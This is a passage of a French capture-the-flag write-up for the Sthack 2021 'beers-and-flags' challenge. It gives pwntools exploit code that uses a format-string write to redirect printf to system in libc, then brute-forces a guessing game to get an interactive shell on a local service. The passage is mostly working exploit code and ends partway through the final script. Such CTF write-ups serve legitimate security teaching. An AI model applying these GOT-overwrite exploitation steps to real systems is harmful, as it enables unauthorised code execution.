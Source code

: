 Grâce à cette fonction, nous allons écrire l'adresse en deux temps. Cette fonction ne fonctionne que si les deux premiers octets du pointer ont une valeur supérieure aux deux derniers.

```python
send_payload(r, write_what_where(system_libc, 0x804c010, OFFSET, JUNK))
log.success("printf@libc -> system@libc")
```

Maintenant que printf est devenu system, notre fonction send_payload n'est plus fonctionnelle. On va donc en écrire une spécialement pour cette étape.

```python
def send_payload_system(r):
    progress = log.progress('Try to win and get a shell')
    for n in range(1000, 10000):
        if is_good_number(n):
            progress.status(str(n))
            r.send(str(n).encode()+b"\n")
            res = r.recvuntil(b'Enter your nickname for scoreboard :', timeout=0.01)
            if b'Enter your nickname' in res:
                progress.success('Win !')
                r.interactive()
                return
```

On a plus qu'à l'appeler et à attendre notre shell 

```python
send_payload_system(r)
```

![](/static/sthack2021/beers-and-flags/upload_dd35ccd2c9a2dac48969d2fc53da5a56.png)

Voici le script final avec chaque step dans une fonction particulière 

```python
from pwn import *

def is_good_number(number):
    return len(set([n for n in str(number)])) == 4

def get_remote():
    return remote('localhost', 1234, level='error')

def send_payload(r, payload, interactive=False):
    if r is None:
        r = get_remote()
        close = True
    else:
        close = False
    r.recvuntil(b'guess the 4 digit number:\n')
    for n in range(1000, 10000):
        if is_good_number(n):
            r.send(str(n).encode()+b"\n")
            res = r.recvuntil(b'\n')
            if b'4B0F' in res:
                try:
                    r.recvuntil(b'Enter your nickname for scoreboard :')
                    r.sendline(payload)
                    r.recvuntil(b'#3 - \n')
                    if interactive:
                        r.interactive()
                    leak = r.recvuntil(b'\n')
                    if close:
                        r.close()
                    return leak
                except:
                    return ""
```